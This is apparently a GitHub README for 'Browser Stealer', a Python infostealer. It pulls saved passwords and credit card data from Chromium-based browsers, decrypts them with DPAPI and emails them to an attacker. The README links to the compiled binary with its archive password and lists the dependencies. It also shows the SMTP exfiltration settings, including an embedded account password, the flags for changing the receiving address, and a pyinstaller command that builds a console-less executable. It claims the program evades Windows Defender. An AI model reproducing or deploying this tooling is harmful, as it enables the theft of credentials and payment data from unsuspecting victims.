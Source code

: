 # Browser Stealer
Finds Internet browsers and applications that use those browsers. It detects files that hold personal information such as username and password, and credit card information. It decrypts these files using DPAPI. It transmits this information to the attacker via email.

**1) The algorithm used by the program for saved passwords is shown in the graphic below.**
![key1](https://user-images.githubusercontent.com/71177413/166139625-fd15d6ea-6355-4a80-ae83-15b6437b54e5.JPG)

**2) The algorithm used by the program for saved credit cards is shown in the graphic below.**
![key2](https://user-images.githubusercontent.com/71177413/166139633-a23d31a5-d098-440d-ba6b-ae36995777b7.JPG)


Supported Browsers
---
This python program gets all the saved passwords and credit cards from chromium based browsers supports chromium 80 and above!
<dl>
  <dt> Supported some browsers
  <dd>
  <dd> ✔ Chrome
  <dd> ✔ Brave
  <dd> ✔ Edge (Chromium)
  <dd> ✔ Opera
  <dd> ✔ Yandex
  <dd> ✔ Other browsers
</dl>


The Compiled Version of the Program Can be Downloaded from the Links Below.
---
<dl>
  <dt> Browser Stealer
  <dd>
  <dd> Browser_Stealer.rar --> zip password: "BrOWserSteaLEr2022"
  <dd> Link = https://drive.google.com/file/d/1Q2XkhU64vHzKfyxmuPh-c9U3JdoqFeyS/view?usp=sharing
</dl>

Requirements
---
Required libraries:  pywin32, pycryptodome, pyinstaller

```
pip install pywin32
pip install pycryptodome
pip install pyinstaller
```

"pyinstaller" will be used to make the code one piece executable


Settings
---
![A](https://user-images.githubusercontent.com/71177413/166140037-c624e1f9-eaf7-48dc-953b-c28ad4e80d15.JPG)

```
    SMTP_SERVER      = "smtp-mail.outlook.com"           # SMTP server for e-mail to be sent
    SMTP_PORT        = "587"                             # SMTP port for e-mail to be sent
    SENDER_ADDRESS   = "ajehdfgruewsf@outlook.com"       # Sender e-mail address
    SENDER_PASS      = "uy8mNbvx4c9agehe5uwk6wxv"        # Sender e-mail password
    RECEIVER_ADDRESS = "python.test.email@outlook.com"   # Receiver e-mail address
```

<dl>
  <dt>
  <dt> Some settings can be changed with initial parameters if desired.
  <dd>
  <dd> -smail:***          ==> sets sender e-mail address   ["SENDER_ADDRESS"]
  <dd> -spass:***          ==> sets sender e-mail password  ["SENDER_PASS"]
  <dd> -rmail:***          ==> sets receiver e-mail address ["RECEIVER_ADDRESS"]
</dl> 

<dl>
  <dt>
  <dt> Example:
  <dd>
  <dd> Browser_Stealer.exe  -smail:gungor@outlook.com -spass:123jKl789 -rmail:receiver@mail.com
  <dd>
</dl>

![5](https://user-images.githubusercontent.com/71177413/166140529-f69a38f2-59ef-4e8c-a577-2b548dc82245.JPG)


Compilation
---

```
pyinstaller --onefile --noconsole --icon=Browser_Stealer.ico Browser_Stealer.py
```

Some Images of the Working of the Program
---

**1) Depending on your mail settings, mails may fall into junk mail.**
![2](https://user-images.githubusercontent.com/71177413/166140643-3a169c8b-0693-4b39-aac1-66fd6fda4e5a.JPG)

**2) When the program runs, it sends the information to the e-mail address in its settings.**
![1](https://user-images.githubusercontent.com/71177413/166140663-3d756371-de97-4efd-8126-5d75614da434.JPG)

**3) The e-mail address can be changed by sending the parameters to the program at the beginning.**
![4](https://user-images.githubusercontent.com/71177413/166140793-c18caf24-b312-4e0a-a403-750c6f22da11.JPG)


Windows Defender
---
As of 01/05/2022, it is not caught by the Windows Defender program. Over time this will change.

Legal Warning
---
Run your tests on virtual machines. The responsibility for illegal use belongs to the user. Shared for educational purposes.
